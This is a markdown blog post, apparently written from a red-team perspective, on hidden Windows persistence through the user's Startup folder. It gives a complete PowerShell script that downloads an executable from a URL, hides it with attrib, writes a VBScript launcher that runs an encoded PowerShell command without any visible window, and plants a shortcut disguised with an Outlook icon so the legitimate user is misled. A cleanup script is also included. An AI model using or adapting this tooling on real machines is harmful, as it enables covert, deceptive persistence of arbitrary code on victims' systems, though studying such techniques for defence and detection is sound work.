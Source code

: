 ```yaml
---
layout: post
title: Persistence using Startup Folder
excerpt_separator: <!--more-->
---
```


One of the most simple persistence methods when you have access as a non-administrative user is using the Startup folder. However, it is not so easy to go completely unnoticed by the legitimate user.

<!--more-->


Gists: 

- [Script to create files](https://gist.github.com/ricardojoserf/d021310080ea34c8c6187d82065dde85)

- [Script to delete files](https://gist.github.com/ricardojoserf/6e1a242e77a52c78b630af22d5709153)

<br>

-------------------------------------------


## Intro

The easiest way to set this persistence method is dropping a file in the Startup Folder of the user, which is in the path:

```
C:\Users\USER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

This file can be an executable program (".exe" extension) but it can also be a Batch script (".bat" extension), Powershell script (".ps1" extension) or even a file shortcut (".lnk" extension). So if, for example, you copy the calc.exe binary from C:\Windows\System32\calc.exe to the mentioned Startup folder path, next time the user logs into the computer the calculator application will pop up.

From a non-attacker perspective, it is common to see big organizations using this and other similar techniques to make all the employee laptops to launch specific programs when the Operating System (usually Windows) starts. In this case, one approach is using shortcuts to open each of these programs: Teams, Outlook, Chrome...

For this specific case, we find a laptop where there are shortcuts to open some programs in the Startup folder, which open all the programs the employee needs for its daily work. However, even if the user uses Outlook everyday, there is not a shortcut for the program. Furthermore, our goal is to run a .exe file every time the user boots the computer without any cmd window popping up

<br>

## Executing a EXE without a window popping up

#### Failed approach: Powershell's window style hidden

First, I created a Batch file in the path:

```
C:\Users\USER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UpdateOutlook.bat
```

And this is the content of the file, a Powershell command which executes the program in the path "c:\temp\OutlookUpdate.exe" and hides the window immediately (that is why we use "-windowstyle hidden"):

```
powershell -windowstyle hidden -command c:\temp\OutlookUpdate.exe
```

What is the biggest problem with this approach? Even if you run this in an good, new, optimized computer, the window will pop up even if it is for half a second. If the computer is older, the time the window appears in the screen will be longer, and having the previous Powershell command for more than 15 seconds in the user's screen is probably not the most OPSEC option. 

Could we encode the Powershell command? Of course, but it is even better if we avoid the window appearing even for half a second.


#### Changing Powershell for VBScript

To avoid any windows appearing in the screen, we will use a VBScript file. For example, the following script will execute an encoded powershell command which will call "c:\ProgramData\Outlook\OutlookUpdate.exe". If we create this file in the Startup folder, the program will get executed and there will be no window popping the user could ever see:

```
Set objShell = WScript.CreateObject(""WScript.Shell"")
objShell.Run(""powershell -e YwA6AFwAUAByAG8AZwByAGEAbQBEAGEAdABhAFwATwB1AHQAbABvAG8AawBcAE8AdQB0AGwAbwBvAGsAVQBwAGQAYQB0AGUALgBlAHgAZQA=""), 0, True
```


#### Shortcut files

But, knowing the folder contains mostly shortcuts, maybe it makes more sense if the VBScript file is generated in other folder and we just leave a shortcut to it in the Startup folder. 

Furthermore, we will change the shortcut icon to a more reliable-looking one, and for this example we will use an Outlook icon. We can generate the file shortcut using WScript:

```
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile")
wget $Url/$IcoFile -Outfile $Dir\$IcoFile
$Shortcut.TargetPath = "$Dir\$VbsFile"
$Shortcut.IconLocation = "$Dir\$IcoFile"
$Shortcut.Save()
```

#### Hidden files

Finally, now we know we will need four files:

- The shortcut file in the Startup folder.
- The icon file used by the shortcut file.
- The VBScript file called by the shortcut.
- The EXE file we wanted to execute in the system at startup.

We will drop the icon and EXE file and generate the shortcut and the VBScript file, and the four files will be on disk. 

We can use the "hidden" attribute so the files are not visible in the folder (by default, even if you probably have File Explorer configured to see hidden items) or running "dir" (you should run "dir /a" to see these hidden files). For this we could use:

```
attrib -h C:\ProgramData\Outlook\OutlookUpdate.exe
```

From my tests, it is important to notice that the shortcut file can not be "hidden", but the VBScript, EXE and even the icon file can be.

<br>

## Final scripts

This process is automated in the following [script](https://gist.github.com/ricardojoserf/d021310080ea34c8c6187d82065dde85):

```
$Url = "http://127.0.0.1:8080"
$Dir="C:\ProgramData\Outlook"
$ExeFile = "notmalicious.exe"
$VbsFile = "CheckUpdate.vbs"
$LnkFile = "Outlook.lnk"
$IcoFile = "microsoft-outlook.ico"

## Create directory
echo "Creating directory $Dir"
mkdir $Dir

## Download and hide .exe
wget $Url/$ExeFile -Outfile $Dir\$ExeFile
attrib +h $Dir\$ExeFile
cmd /c "dir $Dir"
cmd /c "dir /a $Dir"

## Create .vbs
$B64Path = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($Dir+"/"+$ExeFile))
echo $B64Path
cmd /c "echo Set objShell = WScript.CreateObject(""WScript.Shell"") > ""$Dir\$VbsFile"""
cmd /c "echo objShell.Run(""powershell -e $B64Path""), 0, True >> ""$Dir\$VbsFile"""

## Download .ico and create .lnk
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile")
wget $Url/$IcoFile -Outfile $Dir\$IcoFile
$Shortcut.TargetPath = "$Dir\$VbsFile"
$Shortcut.IconLocation = "$Dir\$IcoFile"
$Shortcut.Save()

## Hide .vbs and .ico
attrib +h "$Dir\$VbsFile"
attrib +h $Dir\$IcoFile
cmd /c "dir ""$Dir"""
cmd /c "dir /a ""$Dir"""
type "$Dir\$VbsFile"
cmd /c "dir /a ""$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"""
```


And this is the [script](https://gist.github.com/ricardojoserf/6e1a242e77a52c78b630af22d5709153) to delete the files generated for the persistence (basically you have to unset the "hidden" attribute before deleting a file, you could also delete the folder but I think it is risky to do that in a script):

```
$Dir="C:\ProgramData\Outlook"
$ExeFile = "notmalicious.exe"
$VbsFile = "CheckUpdate.vbs"
$LnkFile = "Outlook.lnk"
$IcoFile = "microsoft-outlook.ico"

## Unhidden and delete files from Dir
cmd /c "dir /a $Dir"
attrib -h $Dir\$ExeFile
attrib -h $Dir\$VbsFile
attrib -h $Dir\$IcoFile
del $Dir\$ExeFile
del $Dir\$VbsFile
del $Dir\$IcoFile
cmd /c "dir /a $Dir"

## Delete .lnk
del "$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile"
cmd /c "dir /a ""$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"""
```

Before deleting these files the program must be stopped if it is already running:

```
tasklist | findstr notmalicious.exe
taskkill /f /pid <PID>
```

<br>
